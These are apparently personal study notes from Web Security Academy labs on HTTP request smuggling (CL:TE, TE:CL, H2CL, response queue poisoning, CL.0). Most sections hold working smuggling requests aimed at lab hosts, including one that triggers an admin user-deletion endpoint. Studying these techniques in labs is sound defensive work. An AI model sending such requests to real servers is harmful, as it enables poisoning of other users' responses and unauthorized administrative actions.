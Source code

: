 ```yaml
---
description: Request Smuggling Practitioner Labs Notes
---
```


# 🏴☠ RequestSmuggling

* Launch Smuggle Probe and H2 Probe. Might miss CL.0
* Try sending extra fast request, ctrl+space
  * Make a separate tab in repeater and spam to see weird requests
    * Should happen within 10 seconds of holding down request
* Double check endings of smuggled request
  * You need to include the trailing sequence `\r\n\r` following the final 0. TE:CL
* Make sure content-length is appropriate for attack and doesn't eat into the smuggled request

### CL:TE Diff Response Testing

* Don't count the 0 that ends the chunk in the leading hex number(byte count)

```
POST / HTTP/1.1
Host: 0aff001903b2238cc1550dd0002a001b.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 46
Transfer-Encoding: chunked

b
q=smuggling
0

GET /404 HTTP/1.1
Foo: X
```

### TE:CL Differential Response Testing

* Two Trailing NewLines
* Content-Length: 4 for the initial Request header (assuming two digit hex number payload)
  * disable update content-length in repeater
* Hex number to start POST payload = Following bytes-7
  * States the bytelength of upcoming "chunk"
  * Starting from Following HTTP Method to include the last newline

```
POST / HTTP/1.1
Host: 0ada00f40447df13c3aec9dc00bf0037.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

9f
POST /404 HTTP/1.1
Host: 0ada00f40447df13c3aec9dc00bf0037.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

#### Capturing Request in Comment

* Spam requests until you get two normal responses in a row
  * Means request was sent in between
  * START SHORT then lengthen content-length
    * Use headers to simplify padding to avoid 500/400 errors when repeating
    * Smuggling req content-length can start corrupting 3rd request for smuggle
      * Should only have two different responses

### H2 Settings

* Launch H2 Smuggle Probe to scan
  * Won't show up through normal active scan
* Repeater Options disable Update Content Length
* Repeater Options enable Allow HTTP/2 ALPN override
* Inspector -> Request Attributes -> Protocol HTTP/2
* Remove any weird `:HEADER Value` that Burp may have added when testing
* Test full exploit on self, especially if poisoning for XSS
  * Quick refresh and send very necessary

**H2CL**

```
POST / HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1 
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net 
Content-Length: 5 

x=1
```

**Inspector tab of editing H2 Header for CRLF**

!\[\[CRLF Injection in H2C.png]]

### Response Queue Poisoning

* More cookies
* Repeat the poisoning request until response is interesting (may take spamming)

```
POST / HTTP/2
Host: 0a0500b303418726c3414233008400b2.web-security-academy.net
Cookie: session=aNKjt644Drm0JgFqrdvkYm1yWY3GjLCi
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Transfer-Encoding: chunked
Content-Length: 91

0

GET /404 HTTP/1.1
Host: 0a0500b303418726c3414233008400b2.web-security-academy.net

```

* Also possible in HTTP/2 Headers
  * May break the website formatting? stay frosty !\[\[Request Splitting H2 Headers.png]]

### CL.0

* Endpoint specific vulnerability
* Send group in sequence, single connection.
* Connection: keep-alive
* Request 1

```
POST /resources/images/blog.svg HTTP/1.1
Host: 0acc000204a8e462c1707b3e00c00090.web-security-academy.net
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0acc000204a8e462c1707b3e00c00090.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: Keep-alive
Content-Length: 50

GET /admin/delete?username=carlos HTTP/1.1
Foo: x
```

* Request 2 is just a valid request
  * may not be necessary during testing?
* Similar technique may work with Host header to bypass endpoint restrictions
